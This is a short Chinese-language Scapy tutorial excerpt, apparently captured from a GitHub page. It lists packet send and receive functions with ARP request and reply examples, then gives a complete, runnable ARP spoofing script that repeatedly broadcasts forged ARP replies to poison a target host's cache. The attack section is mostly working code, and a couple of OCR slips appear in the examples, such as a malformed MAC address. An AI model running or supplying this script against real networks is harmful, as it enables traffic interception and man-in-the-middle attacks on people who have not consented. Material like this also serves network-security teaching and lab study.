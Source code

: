 ```

```

- 发送
```
1、只发不收
		sendp() 第二层
		send()  第三层
2、即发又收
		srp()   第二层
		srp1()  第二层 发送接收第一个回复
		sr()   第三层
		sr1()   第三层 发送接收第一个回复
3、请求包	
		ans =sr1(ARP(pdst="192.168.1.1"),timeout=1,verbose=0)
		verbose=1  不显示详细信息
4、响应包
		sendp(Ether(dst="00:oc.29.21.21.78")/ARP(pdst="192.168.1.3",hwdst="00:oc.29.21.21.78",op=2)
		
```

### 1.4、arp欺骗脚本
`发送方不明确接收方的地址便通过ARP协议寻找目标MAC地址，如果依然没有结果，便只能把报文转发给路由器。`
- KeyboardInterrupt        异常为输入Ctrl+C。
```
#!/usr/bin/python3
#!coding:utf-8

import sys
import time
from scapy.all import *

def arpspoof(ip1,ip2):
    try:
        pkt=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip1,psrc=ip2)
        sendp(pkt)
        return
    except:
        return

def main():
    if len(sys.argv) != 3:
        print("使用方法： ./arp_spoof.py 目标主机IP，被欺骗主机ip")
        sys.exit()

    ip1=str(sys.argv[1]).strip()
    ip2=str(sys.argv[2]).strip()
    while True:
        try:
            arpspoof(ip1,ip2)
            time.sleep(0.5)
        except KeyboardInterrupt:
            print()
            break


if __name__=="__main__":
    main()
                                  
```
